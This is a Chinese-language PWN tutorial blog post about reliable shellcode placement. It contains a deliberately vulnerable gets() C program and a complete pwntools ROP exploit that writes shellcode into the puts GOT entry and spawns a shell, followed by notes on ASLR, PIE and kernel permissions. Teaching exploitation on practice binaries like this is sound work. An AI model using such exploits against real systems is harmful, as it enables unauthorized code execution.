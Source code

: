 ```yaml
---
title: ROP 和 Shellcode
subtitle:
date: 2023-08-29T10:21:02+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


暂无摘要

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/reliable_shellcode-32.zip" content="reliable_shellcode-32.zip" title="Download reliable_shellcode-32.zip" download="reliable_shellcode-32.zip" card=true >}}

```c {title="source.c"}
#include <stdio.h>

void vuln() {
  char buffer[20];

  puts("Give me the input");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 利用

老规矩。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

我们可以再次调用 `gets` 函数，不过这次要让 `gets` 函数把接收到的数据写入程序的某个
区域，一个既可读又可写的地方，例如 GOT 表就是一个不错的选择。我们只要把 GOT 表
里面一个条目的地址传给 `gets` 函数，`gets` 函数就会把我们传进去的 shellcode 写入
这个 GOT 条目的位置，这样我们就知道 shellcode 被准确写入了什么位置。最后我们把
`gets` 函数的返回地址设为 shellcode 的地址，这样返回后就可以完美执行我们刚才输入
的 shellcode 了。

通过控制 `gets` 的写入位置，我们就可以随心所欲地把 shellcode 放在想要的地方，然后
执行它。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确
可靠。

```python
rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## 0x03 64-bit

自行尝试 :D

{{< link href="/pwn_assets/reliable_shellcode-64.zip" content="reliable_shellcode-64.zip" title="Download reliable_shellcode-64.zip" download="reliable_shellcode-64.zip" card=true >}}

## 0x04 ASLR

这种方法不用担心 ASLR 的问题，因为我们既没有使用栈，也没有直接调用 libc 函数，
只是使用了 ROP。

真正的问题是如果启用了 PIE，由于不知道 PLT 的位置，就无法调用 `gets` ，也不知道
GOT 表的位置，无法写入。

## 0x05 潜在问题

由于没有 NX 保护，GOT 表默认的权限通常是可执行的。如果你使用较新版本的内核，
例如 `5.9.0` ，默认会移除可执行权限。

因此，如果你利用失败，可以使用 `uname -r` 查看内核版本，检查是否 `≥5.9.0` ，
如果是，那你就需要找到另一个 RWX 权限的区域放置 shellcode （如果这个区域存在）。

不同的内核和保护需要针对的调整利用技术。

